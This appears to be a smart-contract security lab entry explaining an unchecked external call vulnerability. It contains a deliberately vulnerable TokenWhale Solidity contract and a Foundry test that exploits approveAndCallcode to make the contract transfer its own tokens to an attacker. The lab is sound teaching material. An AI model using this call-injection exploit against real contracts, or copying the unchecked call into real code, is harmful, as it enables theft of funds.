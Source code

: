  # Unchecked external call - call injection  
 [UnsafeCall.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/UnsafeCall.sol)  
 **Name:** Unsafe Call Vulnerability

**Description:**  
In TokenWhale contract's approveAndCallcode function. The vulnerability allows an arbitrary call to be executed with arbitrary data, leading to potential security risks and unintended consequences. The function uses a low-level call (_spender.call(_extraData)) to execute code from the _spender address without any validation or checks on the provided _extraData.
This can lead to unexpected behavior, reentrancy attacks, or unauthorized operations.

This excersise is about  a low level call to a contract where input and return values are not checked
If the call data is controllable, it is easy to cause arbitrary function execution.

**Mitigation:**  
Use of low level "call" should be avoided whenever possible.

**REF**  

https://blog.li.fi/20th-march-the-exploit-e9e1c5c03eb9

**TokenWhale Contract:**  
```
contract TokenWhale {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;

    function TokenWhaleDeploy(address _player) public {
        player = _player;
        totalSupply = 1000;
        balanceOf[player] = 1000;
    }

    function isComplete() public view returns (bool) {
        return balanceOf[player] >= 1000000; // 1 mil
    }

    event Transfer(address indexed from, address indexed to, uint256 value);

    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;

        emit Transfer(msg.sender, to, value);
    }

    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    event Approval(
        address indexed owner,
        address indexed spender,
        uint256 value
    );

    function approve(address spender, uint256 value) public {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
    }

    function transferFrom(address from, address to, uint256 value) public {
        require(balanceOf[from] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);
        require(allowance[from][msg.sender] >= value);

        allowance[from][msg.sender] -= value;
        _transfer(to, value);
    }

    /* Approves and then calls the contract code*/

    function approveAndCallcode(
        address _spender,
        uint256 _value,
        bytes memory _extraData
    ) public {
        allowance[msg.sender][_spender] = _value;

        bool success;
        // vulnerable call execute unsafe user code
        (success, ) = _spender.call(_extraData);
        console.log("success:", success);
    }
}
```  
**How to Test:**

forge test --contracts src/test/UnsafeCall.sol-vvvv  
```
// Function to test the UnsafeCall vulnerability
function testUnsafeCall() public {
    // Setup the environment
    address alice = vm.addr(1);
    TokenWhaleContract = new TokenWhale();
    TokenWhaleContract.TokenWhaleDeploy(address(TokenWhaleContract));

    console.log(
        "TokenWhale balance:",
        TokenWhaleContract.balanceOf(address(TokenWhaleContract))
    );

    // Alice tries to perform an unsafe call to transfer asset from TokenWhaleContract
    console.log(
        "Alice tries to perform unsafe call to transfer asset from TokenWhaleContract"
    );

    // Using the vm.prank() function to change the msg.sender
    vm.prank(alice);

    // Alice calls the approveAndCallcode function with encoded data that represents a call to the transfer function
    TokenWhaleContract.approveAndCallcode(
        address(TokenWhaleContract),
        0x1337, // doesn't affect the exploit
        abi.encodeWithSignature(
            "transfer(address,uint256)",
            address(alice),
            1000
        )
    );

    // Check if the exploit is successful
    assertEq(TokenWhaleContract.balanceOf(address(alice)), 1000);
    console.log("Exploit completed");

    // Log the final balances
    console.log(
        "TokenWhale balance:",
        TokenWhaleContract.balanceOf(address(TokenWhaleContract))
    );
    console.log(
        "Alice balance:",
        TokenWhaleContract.balanceOf(address(alice))
    );
}

// A fallback function to receive ether
receive() external payable {}
```
Red box: exploited successful, drained out the TokenWhale.  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fef522203-1293-43f6-bf50-746d2a4b8457%2FUntitled.png?table=block&id=442bc8fe-4714-4112-a892-725b88a7b32e&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)